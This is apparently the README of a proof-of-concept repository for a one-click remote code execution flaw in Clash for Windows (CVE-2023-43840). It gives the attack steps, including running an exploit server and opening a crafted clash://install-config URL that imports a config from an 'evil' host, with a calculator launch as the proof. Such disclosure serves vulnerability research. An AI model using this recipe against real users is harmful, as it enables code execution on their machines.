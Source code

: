 # clash_for_windows_1click_RCE
clash_for_windows_1click_RCE

- Run server.py
- Open `clash://install-config?url=http%3A%2F%2Fserver-ip%2Fevil` in the browser
- Try right-clicking on the configuration and clicking `Open the Web`
- Get a nice calculator :)

> Clash For Windows ~~0.20.25~~ 0.20.34 / CVE-2023-43840

> I wrote the wrong version number and never found it. How could this happen?
> proof video : https://www.youtube.com/watch?v=q1pt0Nf3pAk
